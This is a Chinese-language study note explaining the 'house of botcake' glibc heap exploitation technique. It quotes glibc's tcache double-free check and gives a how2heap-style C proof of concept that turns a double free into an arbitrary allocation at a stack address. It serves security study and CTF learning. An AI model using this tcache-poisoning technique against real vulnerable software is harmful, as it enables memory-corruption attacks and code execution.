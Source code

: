 ## house_of_botcake——double free



glibc2.27中对tcache double free的检查导致无法像glibc2.23那样对fastbin double free利用，对于要free的且大小在tcache范围内的会将该堆块对整个链表进行校验对比，如果一样就会结束程序。

```c
static void
_int_free (mstate av, mchunkptr p, int have_lock)
{
    ····
	tcache_entry *e = (tcache_entry *) chunk2mem (p);

	/* This test succeeds on double free.  However, we don't 100%
	   trust it (it also matches random payload data at a 1 in
	   2^<size_t> chance), so verify it's not an unlikely
	   coincidence before aborting.  */
	if (__glibc_unlikely (e->key == tcache))
	  {
	    tcache_entry *tmp;
	    LIBC_PROBE (memory_tcache_double_free, 2, e, tc_idx);
	    for (tmp = tcache->entries[tc_idx];
		 tmp;
		 tmp = tmp->next)
	      if (tmp == e)
		malloc_printerr ("free(): double free detected in tcache 2");
	    /* If we get here, it was a coincidence.  We've wasted a
	       few cycles, but don't abort.  */
	  }
    ····
}

```



#### 示例代码（how2heap）

效果：堆块任意地址分配

主要步骤有以下几点

1.填充满tcache bin

2.malloc 两个chunk：prev和victim，并且free掉victim，victim（因为tcache bin满了）落入unsorted bin中，接着free prev，使得malloc_consolidate被调用，合并后的chunk落在unsorted bin中，且chunk地址为prev地址

3.通过malloc(）使得tcache bin有空位，并且通过free(victim)将victim放入tcache bin中（因为victim大小满足tcache bin的大小）

4.再次tmp=malloc(size)，其中size应该大于prev的大小+0x20，程序进入unsorted bin中寻找chunk，并将unsorted bin中的chunk 切片，并将切片剩余的chunk放在unsorted bin中。

5.malloc得到的tmp包含部分victim地址，通过tmp改写victim的fd指针，由于victim位于tcache bin中，修改了fd指针便实验了任意地址分配的能力。

```c
#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>
#include <assert.h>

int main()
{
    setbuf(stdin, NULL);
    setbuf(stdout, NULL);
    intptr_t stack_var[4];
    intptr_t *x[7];
    for(int i=0; i<sizeof(x)/sizeof(intptr_t*); i++){
        x[i] = malloc(0x100);
    }
    intptr_t *prev = malloc(0x100);
    intptr_t *a = malloc(0x100);
    malloc(0x10);
    for(int i=0; i<7; i++){
        free(x[i]);
    }
    free(a);
    free(prev);
    malloc(0x100);
    free(a);
    intptr_t *b = malloc(0x120);
    b[0x120/8-2] = (long)stack_var;
    malloc(0x100);
    intptr_t *c = malloc(0x100);
    assert(c==stack_var);
    return 0;
}
```

执行到第23行时 prev和a合并放入unsorted bin中

![](1.png)



执行到第24行，malloc的内存是从tcache bin中取出的

![](2.png)



执行完第26行，tcache bin成功被污染

![](3.png)







参考文章

https://blog.csdn.net/qq_40712959/article/details/115209640